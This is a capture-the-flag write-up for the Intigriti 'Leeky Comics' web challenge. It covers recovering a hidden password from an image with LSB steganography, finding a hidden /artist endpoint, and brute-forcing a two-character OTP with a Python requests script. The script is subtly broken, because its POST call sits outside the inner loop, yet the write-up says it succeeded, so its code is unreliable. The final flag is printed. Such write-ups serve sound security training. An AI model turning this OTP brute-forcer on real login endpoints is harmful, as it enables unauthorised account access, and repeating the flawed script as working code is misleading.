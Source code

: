 # Leeky Comics
> Check out Dr Leek's new comic store! 👨‍⚕️

## About the Challenge
We were given a website that will generate some images and then we can sign our input to the image

![preview](images/preview.png)

## How to Solve?
If we check the source code by pressing `Ctrl + U` there are 2 comments:

```html
<!-- If you forget the password remember that our admin hid it somewhere in the image with some random python lib -->
```

and

```html
<!-- TODO: Hide the endpoint for the artists -->
```

It looks like this some steganography challs. So I decided to download the generated image and upload it into this [website](https://stegonline.georgeom.net/upload) and then choose `Extract Data` option

The flag is hidden using the LSB steganography technique. Choose row `0` and press `Go` button

![lsb](images/lsb.png)

As you can see, we got 2 digit numbers and also the password

```
32:password:Mich3l@ngel0$ist1n3!511?
```

If we go to check the second HTML comment, it appears that there's another endpoint. I obtained it by guessing, and the endpoint is `/artist`.

![artist](images/artist.png)

We need to input the username (You can get it from the hints), password, and the OTP code. At first I tried to input this:

```
Username: Picasso
Password: Mich3l@ngel0$ist1n3!511
OTP Code: 32
```

But the output was `Incorrect Login`. In this case, I tried to create another python script to bruteforce the OTP code. Here is the code I used to brute the OTP code

```python
import requests

url = "https://leekycomics.ctf.intigriti.io/artist_login"

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

username = "Picasso"
password = "Mich3l@ngel0$ist1n3!511"

for char1 in characters:
    for char2 in characters:
        otp = char1 + char2
        data = {
            "username": username,
            "password": password,
            "otp": otp
        }

    response = requests.post(url, data=data, headers={'Content-Type': 'application/x-www-form-urlencoded'})

    if response.status_code == 200:
        # Print the cookies from the response
        print(f"OTP: {otp}, Cookies: {response.text}")
    else:
        print(f"OTP: {otp}, Response Status Code: {response.text}")
```

And then run the code and voilà (In this case im using grep to get the flag)

![flag](images/flag.png)

```
INTIGRITI{5up3r_53cr37_fl46_dr_l33k_r0ck5}
```
